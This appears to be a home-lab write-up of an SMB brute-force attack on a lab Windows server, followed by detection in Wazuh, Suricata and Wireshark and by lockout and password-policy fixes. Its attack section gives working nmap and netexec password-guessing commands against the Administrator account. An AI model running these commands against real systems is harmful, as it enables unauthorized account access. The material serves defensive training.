



# SMB Brute Force Attack

## Table of Contents
- [Scenario Overiew](#i-scenario-overview)
- [Attack Phase](#ii-attack-phase)
- [Detection Phase](#iii-detection-phase)
- [Incident Response Phase](#iv-incident-response-phase)
- [Corrective Measures Phase](#v-corrective-measures-phase)

## I. Scenario Overview:

**Objective:** Attempt to break into the Windows Server (172.16.0.2) file-sharing service using the "Administrator" username and a list of common passwords. 

**MITRE ATT&CK Mapping:**
- Tactic: Credential Access (TA0006)
- Technique: Brute Force (T1110)
    - Sub-technique: Password Guessing (001)

## II. Attack Phase:

### Step 1: Locate password list in Kali terminal:
```bash
locate rockyou.txt
```

### Step 2: Ensure that target machine is reachable:
```bash
ping -c 4 172.16.0.2
nmap -p 445 172.16.0.2 # Verify SMB port is open
```

### Step 3: Launch the attack using `netexec`:
```bash
netexec smb 172.16.0.2 -u Administrator -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
# - smb: protocol you are targeting (port 445)
# - -u: specify single static username
# - -P: specify password wordlist
# - --ignore-pw-decoding: in case netexec comes across a password it can't read
```

### Password Successfully Guessed:



## III. Detection Phase:

### NIST CSF Function: Detect (DE)

Category: DE.CM — Continuous Monitoring
- DE.CM-09: Computing hardware and software, runtime environments, and their data are monitored to find potentially adverse events
     - Mapping: Monitor authentication attempts to identify attacks against credentials.

### Step 1: Analyze Windows Security Events
In Wazuh Dashboard ...
- Filter for `agent.name: WIN-MEUJ3KPDEG5` (Windows Server agent)
- Filter for `data.win.system.channel: Security` (Security Event Logs)
- Select Timeslot: `Dec 31, 2025 @ 17:09:00` -> `Dec 31, 2025 @ 17:16:00`




### Security Event summary:
| rule.description | hit count | rule.id |data.win.eventdata.ipAddress | agent.ip |
| --- | --- | --- | --- | --- |
| Logon Failure - Unknown user or bad password | 13K+ | 60122 | 172.16.0.5 | 172.16.0.2 |
| Multiple Windows Logon Failures | 2K+ |  60204 |172.16.0.5 | 172.16.0.2 |
| Successful Remote Logon Detected - User:\Administrator ... | 1 | 92652 | 172.16.0.5 | 172.16.0.2 |

We observe that some machine (172.16.0.5) within our network made greater than 13K unsuccessful attempts to logon to the primary domain controller (172.16.0.2), in the span of roughly 7 minutes, before successfully logging in. This high fail rate behavior pattern indicates a brute force attack likely occurred.

### Step 2: Analyze Suricata Logs
In Wazuh Dashboard ...
- Filter for `rule.groups:suricata` (network logs)
- Select Timeslot: `Dec 31, 2025 @ 17:09:00` -> `Dec 31, 2025 @ 17:16:00`



### Network log summary:
| rule.description | hit count | data.src_ip | data.dest_ip | data.dest_port |
| --- | --- | --- | --- | --- |
| Suricata: Alert - GPL ICMP PING *NIX | 4 | 172.16.0.5 | 172.16.0.2 | N/A |
| Suricata: Alert - SURICATA STREAM ... | 128 | 172.16.0.5 | 172.16.0.2 | 445 |

We observe that the attacker machine (172.16.0.5) sent a ping request to the primary domain controller before attempting a brute force attack. We also observe that the attacking machine is sending abnormal TCP traffic to the domain controller indicated by `SURICATA STREAM ...` alerts.

### Step 3: Network Traffic Analysis (Wireshark)

Calculate the login attempt rate with Wireshark.

- **Step 1:** Capture packets during attack
(In Kali terminal):
    ```bash
    # Start capture before attack
    sudo tcpdump -i eth0 -w smb_brute_force.pcap host 172.16.0.2 and port 445

    # Run attack, then stop capture (Ctrl + C)
    ```
- **Step 2:** Analyze in Wireshark: `wireshark smb_brute_force.pcap`
- **Step 3:** Filter for `tcp.port == 445`
- **Step 4:** Find total connection count:
    1. Go to Statistics > Conversations
    2. Click TCP tab
    3. Filter for `Address A == 172.16.0.5` and `Address B == 172.16.0.2`
    4. Number of entries represents Total Connection Count -> 15,829 connections
- **Step 5:** Find duration of attack:
    1. Find timestamp of first and last packet
    2. Calculate `attack duration = end time - start time` ->  338.159322 seconds
- **Step 6:** Find attempt rate: `rate = 15,829 attempts / 338.159322 seconds`

**Login attempt rate:** ~46 attempts/sec

## IV. Incident Response Phase:

### NIST CSF Function: Response (RS)

Category: RS.MI — Incident Mitigation 
- DE.MI-01: Incidents are contained
    - Mapping: Temporarily lock administrator account
- DE.MI-02: Incidents are eradicated 
    - Mapping: Reset Administrator Account Password

### Remediation Steps:

Step 1: Temporarily Lock Administrator Account

Step 2: Reset Administrator Account Password

## V. Corrective Measures Phase:

### NIST CSF Function: Protect (PR)

Category: PR.AA — Identity Management, Authentication, and Access Control
- PR.AA-03: Users, services, and hardware are authenticated
     - Mapping: Implement Password Complexity Policy

Category: PR.PS — Platform Security
- PR.PS-01: Configuration management practices are established and applied
     - Mapping: Implement Account Lockout Policy

### Preventative Measures:

Step 1: Implement Account Lockout Policy
- Account lockout threshold: 5 invalid logon attempts
- Account lockout duration: 30 minutes

Step 2: Implement Password Complexity Policy
- Minimum password length: 12 characters
- Default Password complexity requirements: Enabled